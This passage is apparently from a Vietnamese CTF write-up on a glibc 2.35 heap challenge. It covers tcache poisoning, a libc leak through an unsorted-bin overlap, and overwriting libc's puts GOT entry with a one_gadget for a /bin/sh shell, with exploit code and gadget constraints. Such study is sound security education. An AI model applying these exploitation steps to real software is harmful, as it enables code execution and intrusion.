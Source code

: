 Giờ mình gọi `realloc(mlist[4],0x68)` để control entries bằng `mlist[4]`  -> ghi đè `tcachesbin[0x80] entry` thành `tcache+0x160` -> gọi `realloc(mlist[5],0x78)`
từ đó `mlist[5]` trỏ vào `tcache+0x160`.

```python
Edit(4,0x68,p64(0)*6+p64(tcache_perthread_struct+0x160))
Edit(5,0x78,b"X")
```
![](https://i.imgur.com/wlm1UUM.png)

Ta thấy giờ `mlist[5]` cách `unsortedbin` 0x60, nếu ta gọi `malloc(0x58)` ra thì khi đó `unsortedbin` và `mlist[5]` overlap -> in `mlist[5]` ra ta leak được libc.

```python 
Edit(6,0x58,b"Khongduocthicut")
List()
p.recvuntil(b"[5] ")
libc.address=int(p.recv(6)[::-1].hex(),16)-0x219ce0
```

Đề bài cho libc 2.35, ta không thể ghi đè one-gadget vào `__malloc_hook`,`__calloc_hook`,`__realloc_hook` hay `__free_hook` để chiếm shell.

Đầu tiên mình nghĩ đến việc ghi đè one_gadget vào got của libc. Dễ thấy nhất là hàm puts.
![](https://i.imgur.com/yu3Ntne.png)

```python 
puts_abs_got=libc.address+0x219098
Edit(3,0x78,p16(0)*6+p16(7))
Edit(4,0x68,p64(0)*6+p64(puts_abs_got-8))
Edit(7,0x78,p64(8)+p64(libc.address+0xebcf8))
```
[Note: halfbyte đầu của một địa chỉ tcachebin phải là 0](https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L1322)
![](https://i.imgur.com/nh7LiPz.png)
Vấn đề là lúc này khi mình check thực sự các thanh ghi không thảo mãn one_gadget nào.
```c
0x50a37 posix_spawn(rsp+0x1c, "/bin/sh", 0, rbp, rsp+0x60, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL
  rbp == NULL || (u16)[rbp] == NULL

0xebcf1 execve("/bin/sh", r10, [rbp-0x70])
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xebcf5 execve("/bin/sh", r10, rdx)
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL
  [rdx] == NULL || rdx == NULL

0xebcf8 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```
Tuy nhiên mình thấy có quy luật là $rsi là địa chỉ trỏ vào heap chunk, $rdx là số byte vừa ghi đè được lên heap chunk, $rax và $rdi là con trỏ tới "Done".
